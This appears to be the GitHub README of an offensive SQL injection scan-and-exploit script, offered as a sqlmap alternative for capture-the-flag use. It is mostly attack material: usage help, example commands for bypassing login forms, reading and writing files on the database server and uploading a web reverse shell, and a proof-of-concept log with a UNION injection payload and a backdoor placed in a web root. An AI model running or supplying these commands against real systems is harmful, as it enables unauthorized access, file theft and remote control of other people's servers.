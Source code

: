
```
            ____   ____   ____   ____ _     _       _              _ 
           |  _ \ / __ \ / /\ \ / ___| |__ / |____ | |_ ___   ___ | |
           | |_) / / _` | |  | | |  _| '_ \| |_  / | __/ _ \ / _ \| |
           |  _ < | (_| | |  | | |_| | | | | |/ /  | || (_) | (_) | |
           |_| \_\ \__,_| |  | |\____|_| |_|_/___|  \__\___/ \___/|_|
                  \____/ \_\/_/                                      
```

##### Find all scripts in: [roughiz](https://github.com/roughiz)


##### SQLI script by R0()Gh1z
##### -=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=

# sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Bypass a blind authentication Form with return message (true,false)
##### . Found an injection
##### . Define a startsWith of an injection
##### . Use of proxy to debug
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-ns BYPASS] [-s FOUND] [-l LEVEL]
                     [--prefix PREFIX] [--proxy] [-v]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -ns BYPASS, --not-string BYPASS
                        Define the failed login message. Script try sqli until
                        this string is not in the request output
  -s FOUND, --string FOUND
                        Define the successfully login message. Script try sqli
                        until the string is in the request output
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  --prefix PREFIX       Define a prefix variable for the sqli. Per example "1
                        "
  --proxy               Use a default proxy at "127.0.0.1:8080". set to False
                        by default
  -v, --verbose         Define verbose output. set to False by default
```

## Examples

#### Bypass a form authetication returning a text when false

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -ns "Your Login Name or Password is invalid" 
```

#### Bypass a form authetication returning a text when true

```
$ sql_injection -u http://host/index.php --data "username=admin&password=admin" -p username -s "Success" 
```

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Found an injection with verbose mode and also using a local proxy

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId -v --proxy
```
#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php
```

## Poc

```
$ sql_injection -u http://box/view_product.php -H "X-Forwarded-For:192.168.1.2 Agent:roughiz" --data "productId=1" -p productId  --file-write test.txt --file-dest "C:/Inetpub/wwwroot/uploads/test.txt" --file-read "/Inetpub/wwwroot/cx3iSfa2OwsY.php"  --upload-revshell ./shell_cmd.php

[SQLI] The parameter "productId" is injectable
[SQLI] Blind injection use code error to analyse injection
[Exploit] Found a sqli injection: -8408 UNION ALL SELECT CONCAT(0x716a6b6a54,0x57795a66454142,0x5562626b71)#
[Exploit] The Head: (-8408 UNION ALL SELECT  ) and the comment char: (#)
[Upload] Upload a file through sqli
Do you want confirmation that the file 'test.txt' has been successfully written on the backend file system ('C:/Inetpub/wwwroot/uploads/test.txt')?. 'No' by default: [y/n] y
[Upload] File has been successfully written on the backend 
[Upload] File verification: the local file "test.txt" and the remote file "C:/Inetpub/wwwroot/uploads/test.txt" have the same size (74 B)
[Read] The file "/Inetpub/wwwroot/cx3iSfa2OwsY.php" exists and it has the size (74 B)
[Read] File readed successfully, it will be saved at he path: "/tmp/lJ6iu9Kp__Inetpub_wwwroot_cx3iSfa2OwsY.php" 
[Reverse Shell Upload] Upload a reverse shell file through sqli
[INFO] Going to use a web backdoor to establish the tunnel
which web application language does the web server support?
[1] ASP
[2] ASPX
[3] JSP
[4] PHP (default)
> 
[Reverse Shell Upload] Define destination directory path
what do you want to use for writable directory?
[1] Define a locations(s) path(s)
[2] Brute force search (default)
> 2
[Reverse Shell Upload] Define the DBMS server architecture
Choose the DBMS architecture?
[1] Windows
[2] Linux
[3] All (default)
> 1
[Reverse Shell Upload] The script found 1 url(s)
[URL] Try your reverse shell in the url: http://box/adbVypBUZZ9n.php uploaded in the DBMS path "/Inetpub/wwwroot/adbVypBUZZ9n.php"
```

